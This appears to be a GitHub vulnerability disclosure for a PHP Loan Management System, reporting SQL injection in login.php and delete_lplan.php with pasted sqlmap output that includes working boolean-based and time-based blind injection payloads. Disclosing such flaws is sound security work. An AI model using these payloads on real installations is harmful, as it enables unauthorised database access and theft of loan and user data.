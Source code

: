 # Loan-Management-System-Sqlinjection

## Sqlinjection 1

### Sqlinjection Page
login.php   
![image](https://user-images.githubusercontent.com/72059221/182859043-d319c3d5-1d29-41f4-9d33-ee76d5ca7d8b.png)

### Sqlmap
![image](https://user-images.githubusercontent.com/72059221/182859212-e9fbe12d-339c-47b3-b05e-712dbaa4dd5b.png)

```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=1' OR NOT 8877=8877#&password=1&login=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=1' AND (SELECT 4254 FROM (SELECT(SLEEP(5)))Ydjq)-- NMhF&password=1&login=1
---
[21:25:18] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 5.6.9
back-end DBMS: MySQL >= 5.0.12
```

### Code
The bind_param binding parameter is not used    

![image](https://user-images.githubusercontent.com/72059221/182859564-ad69e86c-e424-49c4-a140-a670b2e2b3ba.png)

![image](https://user-images.githubusercontent.com/72059221/182859645-a11bbbae-8fd6-44aa-90b7-78dfa285ff1f.png)

## Sqlinjection 2 ( too many )

### Sqlinjection Page
delete_lplan.php     

### Sqlmap
![image](https://user-images.githubusercontent.com/72059221/182864525-22cec33e-b117-4c8b-9ad0-31ab1eecf3b7.png)


``` 
GET parameter 'lplan_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 1899 HTTP(s) requests:
---
Parameter: lplan_id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: lplan_id=2'+(SELECT 0x714c6c4c WHERE 6948=6948 AND (SELECT 7588 FROM (SELECT(SLEEP(5)))BFGS))+'
---
[21:51:10] [INFO] the back-end DBMS is MySQL
[21:51:10] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[21:51:10] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n]
web application technology: PHP 5.6.9, Apache 2.4.39
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
``` 
### Code
![image](https://user-images.githubusercontent.com/72059221/182864611-a915c912-0a27-4b1a-b609-ab8893d43661.png)

![image](https://user-images.githubusercontent.com/72059221/182864674-80ed2a5d-8a94-483f-9742-ad0f4d89afc5.png)

### A lot of
![image](https://user-images.githubusercontent.com/72059221/182866706-0e9adab3-fb40-4a75-97cf-45791b1451b8.png)
![image](https://user-images.githubusercontent.com/72059221/182866759-0062d5d2-414f-4c71-ae2e-6824eeeee8a8.png)
![image](https://user-images.githubusercontent.com/72059221/182866799-c0fc0dba-33d5-4e66-8fb6-9a01e59d6995.png)
![image](https://user-images.githubusercontent.com/72059221/182866847-13c0bb07-7487-4b78-a67d-6515195281a9.png)
![image](https://user-images.githubusercontent.com/72059221/182866900-eb29354f-53cb-4dbd-91c4-2621c59831e7.png)


## Code Downalod
https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html
